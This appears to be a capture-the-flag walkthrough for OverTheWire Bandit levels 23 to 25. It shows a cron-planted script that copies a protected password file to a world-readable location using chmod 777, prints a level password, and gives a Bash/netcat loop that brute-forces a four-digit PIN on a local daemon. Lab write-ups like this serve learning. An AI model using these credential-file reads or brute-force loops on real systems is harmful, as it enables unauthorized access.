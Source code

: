 ```py
cat /etc/bandit_pass/bandit24 > tmp/jhalon/pass      
# reading the contents of the bandit24 password file (/etc/bandit_pass/bandit24)
# and sending its output into a file that our bandit23 user account can see. (tmp/jhalon/pass)
#Save this new script as script.sh.


$ chmod 777 script.sh
# make our script executable by bandit24. 777 is excessive for permissions
# can also chmod -R 777 your tmp file in order to ls your files if you’re finding not listing your directory to be irritating.


$ cp script.sh /var/spool/bandit24
# copy script into the /var/spool/bandit24 folder.

# Give it a minute to allow the cron job to run and then cat the file you specified as output.
$ dir -a
.  ..  pass  script.sh
$ cat /tmp/jhalon/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---

## Bandit Level 24 → Level 25 `nc localhost port password pin`
Level Goal
- A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, `brute-force`.

- Objective
  - Brute force the server listening on port 30002 using the password for Bandit 24.

list of general steps for this challenge/script.
  - Connect to the service
  - Send a password + pin combo (Script and `automate this process`)
  - Evaluate the results

1. go ahead and write a `Bash Script` to Brute Force the PIN while attempting a connection.

`echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1001 | nc localhost 30002 >> result &`

```py

#!/bin/bash
password24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in {0000..9999}
  do
    echo $password24 $i >> passlist.txt
  done

# generated the passlist.txt with the password and 0000 for example:
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
...

# cat this file into nc and let it run
cat passlist.txt | nc localhost 30002


-----------------------------------------------------


#!/bin/bash
```